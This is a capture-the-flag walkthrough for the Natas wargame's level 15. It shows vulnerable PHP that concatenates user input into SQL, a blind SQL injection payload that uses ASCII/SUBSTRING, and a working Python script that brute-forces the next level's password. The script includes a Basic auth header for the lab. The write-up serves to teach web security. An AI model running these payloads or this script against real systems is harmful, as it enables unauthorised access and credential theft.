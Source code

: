 # Level 15
Pushing things further, this level deals with Blind SQL injection. We'll make a python script as well.

##  Quest
We are presented with a simple page that checks if a user exists or not.
![Level 15 Image](./images/Level15.png)

Backend code is similar to previous level with some important changes
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    // If there is no error, we will get one of two response, depending on user input
    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/>
## Solution
From the source code, we can see that<br/>
 - Again <span id=yellow>unsanitized</span> user input is inserted into the query.<br/>
 - Although no output is displayed after query execution, we can make use of <span id=green>blind SQL injection</span>.<br/>
 - When query succeeds, we get _user exists_, and when it fails, we get _user doesn't exist_ msg.<br/>
 - Additionally, we can see that there is a debug parameter, which displays query on screen.<br/>
 - Lastly, there is a users table with `username` and `password` column.<br/>

Here is what was done.
1. Firstly, check if user `natas16` exist, it does, and we want its password.
2. Below is log from local linux lab to make use of `ascii` and `substring` functions to smuggle the password.<br/>


```sql
-- Testing query in Lab
-- Our Sample table
mysql> select * from books;
+---------+--------------+-----------+----------+
| book_id | name         | author    | released |
+---------+--------------+-----------+----------+
|       1 | Big Magic    | Elizabeth |        1 |
|       2 | Brown Farm   | AK        |        0 |
|       3 | Malgudi Days | R.K.N     |        1 |
+---------+--------------+-----------+----------+
3 rows in set (0.00 sec)

-- We compare first character of author name with ascii code  
-- Below is a successful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
+---------+-----------+-----------+----------+
| book_id | name      | author    | released |
+---------+-----------+-----------+----------+
|       1 | Big Magic | Elizabeth |        1 |
+---------+-----------+-----------+----------+
1 row in set (0.00 sec)

-- Below is an unsuccessful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 70;
Empty set (0.00 sec)
```

Lets focus on second query
```sql
select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
```
`SUBSTRING(author, 1, 1)` refers to the first character and `ASCII` converts that first character to its ASCII code.
So, Above query will return a row if the ASCII code of first character of the name of author is equal to 69, i.e. E

We build our payload accordingly:<br/>
<span id=green>  Our payload -></span> `GET /index.php?username=natas16" AND ASCII(SUBSTRING(password,1,1))=65;#&debug=true HTTP/1.1`<br/>
Here, we are checking if the first character of password of user <u>natas16</u> has ascii code of 65 .i.e. A<br/>

Below is screenshot of our failed attempt in Burp. (Note the response _user doesn't exist_)

![Level 15 solution](./images/Level15_solution.png)

Below is a successfull attempt, our password begins with 'W', ascii code 87. (Note the response _user exists_)

![Level 15.1 solution](./images/Level15.1_solution.png)

Instead of manually searching for password char by char, we use <span id=green>Burp intruder</span>.<br/><br/>
We manually change `password(1,1)` -> `password(2,1)` for finding second character and so on. This process will repeat till we find all characters. Here password is 32 characters long. On 33rd attempt, intruder will not find any character and we know that we are done.

Intruder settings for the same are shown below
![Level 15.2 solution](./images/Level15.2_solution.png)

Intruder Payload settings are below. Now we start attack!.
![Level 15.3 solution](./images/Level15.3_solution.png)

Below is the screenshot of discovering the second password character.
![Level 14.4 solution](./images/Level15.4_solution.png)

We repeat this process 32 times to get the complete password for next Level.<br/><br/>It took me about an hour to smuggle password char by char with Burp community addition, so i decided to write a script to do the same, just for the fun of it.
<br/><br/>
This script does blind mysql injection till all password characters are revealed
```python
 1 #!/usr/bin/env python3
 2
 3 import requests
 4 # Should have used auth, but it works for now.
 5 headers = {'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
 6 
 7
 8 password = ""
 9 pos = 1
10
11 while True:
12     if password:
13         payload = f'natas16" AND password = \'{password}\' ;#'
14         data = {'username': payload}
15         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers)
16         if response.status_code == 200  and "This user exists" in response.text:
17             print(f"\r{password}", end='', flush=True)
18             break
19
20     for i in range(33,128):
21         print(f"\r{password}{chr(i)}", end='', flush=False)
22         payload = f'natas16" AND ASCII(SUBSTRING(password,{pos},1)) = {i};#'
23         data = {'username': payload}
24         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers)
25         if response.status_code == 200:
26             if 'This user exists.' in response.text:
27                 password += chr(i)
28                 print(f"\r{password}{chr(i)}", end='', flush=True)
29                 #print(password)
30                 break
31             elif "This user doesn't exist" in response.text:
32                 continue
33             elif i == 127:
34                 break
35             else:
36                 print('Program flow should not reach here. Exiting')
37                 #return 2
38         else:
39             print(f"Status code: {response.status}")
40     pos += 1
41 # todo: refactor the code
```
<br/>
I Added a cool effect that displays the found characters and also searches for next character.

Below is a sample run of the script

<img src="https://grey-fish.github.io/Natas/images/natas15.gif">

<span id=green>Thats all folks!</span>

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
